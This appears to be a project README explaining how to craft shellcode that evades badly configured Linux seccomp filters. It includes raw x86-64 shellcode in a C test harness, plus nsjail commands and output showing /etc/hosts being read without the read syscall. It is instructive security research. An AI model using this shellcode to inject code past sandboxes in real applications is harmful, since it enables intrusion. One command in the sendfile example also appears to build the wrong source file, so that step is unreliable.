 # seccomp-bypass
seccomp is used by applications to restrict system calls it can make, thus sandboxing it. Its goal is to limit the application to only the facilities it needs to perform its job and nothing more.

The goal here is to bypass these seccomp restrictions when exploiting applications. You need shellcode that will carry out its purpose while still adhering to the application's seccomp filter. So if the filter specifies a denial of `read` and `write`, then valid shellcode may use any system call but those.

**Bypasses are possible not because seccomp is flawed, but because sometimes seccomp filters are inappropriately configured. Just like an exploit takes advantage of programming mistakes, these bypasses take advantage of configuration mistakes.**

# Premise
A typical exploit scenario is that you have a vulnerable application into which you can inject shell code. If it's sandboxed, you need to tailor the shellcode to include only the permitted system calls.

The code below is a generated application, contrived purely to run test shellcode from `src/`. The output is a test program that we run to confirm the shellcode's viability when injected into a foreign application.

&gt;: ./gen-shellcode.sh src/read-with-mmap.s
```c
#include <stdint.h>
#include <sys/mman.h>

char shellcode[] = "\x66\x41\xbb\x74\x73\x41\x53\x49\xbb\x2f\x65\x74\x63\x2f\x68"
                   "\x6f\x73\x41\x53\x48\x8d\x3c\x24\x48\x31\xf6\x04\x02\x0f\x05"
                   "\x48\x31\xff\x48\x31\xf6\x66\xbe\xff\xff\x48\x31\xd2\x80\xc2"
                   "\x01\x49\x89\xc0\x4d\x31\xc9\x4d\x31\xd2\x41\x80\xc2\x01\x48"
                   "\x31\xc0\xb0\x09\x0f\x05\x48\x31\xff\xfe\xc2\x48\x89\xc6\x48"
                   "\x31\xd2\x66\xba\xff\xff\x48\x31\xc0\xfe\xc0\x0f\x05\x48\x31"
                   "\xff\xb2\x03\x48\x31\xc0\xb0\x3c\x0f\x05";

int main(){
  mprotect((void *)((uint64_t)shellcode & ~4095), 4096, PROT_READ|PROT_EXEC);
  (*(void(*)()) shellcode)();
  return 0;
}
```
Compile it with: `$gcc -static read-with-mmap.c -o read-with-mmap`

# Examples
Below are examples of shellcodes that perform each section's goal within certain system call constraints. Each goal has one or more shellcodes using a combination of system call combinations to achieve it.

*To follow along, use [Google's nsjail](https://github.com/google/nsjail) to run programs with a specific seccomp policy.*

## Read a file from the filesystem
Each of these examples reads the file `/etc/hosts` from the target system without using the typical `read(2)` call.
### Syscalls required: `open`,`exit`,`write`, `mmap`
This example is based on shellcode from `src/read-with-mmap.s`. You can see the line `127.0.0.1	localhost` present in the output below, which is a sign the seccomp filter is bypassed successfully.

Try replacing the `read` in the DENY clause with `open`,`exit`,`write`, or `mmap`. Doing so should cause the command to fail because the shellcode in this example uses all four of those calls.

Generate the program:
```bash
f=`tempfile`; ./gen-shellcode.sh src/read-with-mmap.s > $f.c; gcc -static $f.c -o $f
```

Now run it with `nsjail`:
```bash
>:~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read } } USE a DEFAULT ALLOW' -- $f
[2017-05-12T16:48:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-12T16:48:04-0700] Executing '/tmp/fileVRncd7' for '[STANDALONE_MODE]'
127.0.0.1	localhost
>:
```

Below shows a default DENY policy. You'll need to allow a few more system calls to use it in this example. This is a wider set of calls than what is required of an application in the wild, which does "start > set seccomp filter > fork", because in this example case we have to interact with the OS to set up the process space first (doing an `execve` and not just a `fork`.

```bash
~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { ALLOW { read, open, write, mmap, execve, newuname, brk, arch_prctl, readlink, access, mprotect, exit } } USE a DEFAULT DENY' -- $f
```

### Syscalls required: `open`, `sendfile`
This example is based on shellcode from `src/read-with-sendfile.s`. We can get away with reading a file with just these two system calls.

```bash
>: f=`tempfile`; ./gen-shellcode.sh src/read-with-mmap.s > $f.c; gcc -static $f.c -o $f
>: ~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read,write,mmap } } USE a DEFAULT ALLOW' -- $f
[2017-05-15T16:03:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-15T16:03:04-0700] Executing '/tmp/fileCNqBB4' for '[STANDALONE_MODE]'
127.0.0.1	localhost
>:
```

An example with default DENY:
```bash
~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { ALLOW { open, sendfile64, execve, newuname, brk, arch_prctl, readlink, access, mprotect, exit } } USE a DEFAULT DENY' -- $f
```
